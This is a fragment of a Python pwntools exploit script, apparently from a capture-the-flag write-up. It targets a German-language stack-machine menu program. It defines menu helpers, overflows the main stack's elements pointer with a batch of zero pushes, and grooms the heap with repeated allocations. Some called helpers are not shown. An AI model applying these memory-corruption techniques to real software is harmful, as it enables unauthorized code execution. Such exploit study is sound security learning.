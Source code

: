 ```python
def push_haupt(elem: int):
    assert(elem >= 0 and elem < 256)
    p.sendlineafter(b"Wahl: ", b"5")
    p.sendlineafter(b"Geben sie das element in hexadezimal notation an: ", f"{elem:02x}".encode())

def push_haupt_str(elem: int) -> bytes:
    assert(elem >= 0 and elem < 256)
    return b"5\n" + f"{elem:02x}\n".encode()

def push_neben(elem: int):
    assert(elem >= 0 and elem < 256)
    p.sendlineafter(b"Wahl: ", b"6")
    p.sendlineafter(b"Geben sie das element in hexadezimal notation an: ", f"{elem:02x}".encode())

def pop_haupt() -> int:
    p.sendlineafter(b"Wahl: ", b"7")
    p.recvuntil(b"Element: ")
    return int(p.recvuntil(b"\n"), 16)

def pop_neben() -> int:
    p.sendlineafter(b"Wahl: ", b"8")
    p.recvuntil(b"Element: ")
    return int(p.recvuntil(b"\n"), 16)

def transfer_haupt_neben():
    p.sendlineafter(b"Wahl:", b"9")

def transfer_neben_haupt():
    p.sendlineafter(b"Wahl:", b"10")

def unterkellern():
    p.sendlineafter(b"Wahl:", b"11")

def do_exit():
    p.sendlineafter(b"Wahl:", b"12")

### Wrappers for batch processing to speed up exploit ###
def push_haupt_batch(elem_list):
    buffer = b""
    for elem in elem_list:
        buffer += push_haupt_str(elem)
    p.send(buffer)

def gc_thrashing(num_objects: int, obj_size: int):
    buffer = b""
    for _ in range(num_objects):
        buffer += create_neben_str(obj_size) + del_neben_str()
    p.send(buffer)

# whole page, no alignment issues
haupt_size = 0x1000

# sizeof(Keller)
neben_size = 0x20

# create main stack and overflow the elements pointer
create_haupt(haupt_size - 1)
unterkellern()
push_haupt_batch([0] * haupt_size)

# 1834 was determined empirically
gc_thrashing(1834, neben_size - 1)

```